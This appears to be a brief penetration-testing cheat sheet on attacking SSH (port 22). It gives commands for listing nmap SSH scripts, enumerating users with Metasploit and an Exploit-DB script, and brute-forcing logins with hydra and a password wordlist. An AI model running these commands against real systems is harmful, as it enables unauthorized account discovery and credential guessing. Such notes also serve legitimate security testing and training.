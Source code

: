 # SSH - 22



#### Vulnerability Scan

```bash
# list all SSH nse scripts
ls /usr/share/nmap/scripts/ssh*

# User Enumeration with metasploit
use auxiliary/scanner/ssh/ssh_enumusers

# User Enumeration
python /usr/share/exploitdb/platforms/linux/remote/40136.py -U /usr/share/wordlists/metasploit/unix_users.txt $ip
```

#### Bruteforcing SSH

```bash
# With hydra
hydra -l user -P /usr/share/john/password.lst $ip ssh
```





